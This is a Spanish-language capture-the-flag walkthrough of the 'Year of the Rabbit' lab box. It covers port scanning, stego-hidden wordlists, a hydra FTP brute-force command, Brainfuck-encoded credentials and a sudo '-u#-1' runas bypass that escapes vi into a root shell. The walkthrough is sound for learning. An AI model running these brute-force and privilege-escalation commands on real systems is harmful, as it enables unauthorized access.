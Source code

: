 # Year of the Rabbit

## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```
## Enum
### HTTP
#### Gobuster
```
/assets (Status: 301) <- Aqui dentro hay un rickrrolled.mp4 :v y un css
```
#### El CSS es una trampa
```
  /* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
```
#### sup3r_s3cr3t_fl4g
Si tenemos el js habilitado nos redirige a el video de Rick Roll, veamos que ocurre examinando la peticion en burpsuite
```
GET /intermediary.php?hidden_directory=/WExYY2Cv-qU HTTP/1.1
Host: 10.10.211.47
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
Veamos que ese directorio hay una foto, la descargamos y miramos si se ha aplicado algún tipo de esteganografía a la misma, vemos que se ha añadido algo al final
```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
```
Seguido de esto hay una serie de strings que parece ser una wordlist.

## Exploit
```
hydra -l ftpuser -P pass.txt ftp://10.10.211.47
```
Y obtenemos la siguiente
```
[21][ftp] host: 10.10.211.47   login: ftpuser   password: 5iez1wGXKfPKQ
```
Una vez dentro tenemos el siguiente archivo:

```
drwxr-xr-x    2 0        0            4096 Jan 23  2020 .
drwxr-xr-x    2 0        0            4096 Jan 23  2020 ..
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
```
### Eli
Las creds para elli resultan se un string en Brainfuck
```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```
Lo decodificamos y tenemos lo siguiente
```
User: eli

Password: DSpDiM1wAEwid
```
Cuando nos logeuamos tenemos el siguiente mensaje
```
Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there
```
Una busqueda con el comando find como la siguiente nos revelara un lugar escondido
```
/var/www/html/sup3r_s3cr3t_fl4g.php
/usr/games/s3cr3t
```
Dentro hay un mensaje para gwendoline
```
Your password is awful, Gwendoline. 
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```
Con esto podemos logearnos como gwendoline

## Privesc
```
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```
Este privesc es sencillo
```
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
> :!/bin/bash
```
Y ya tenemos shell como root
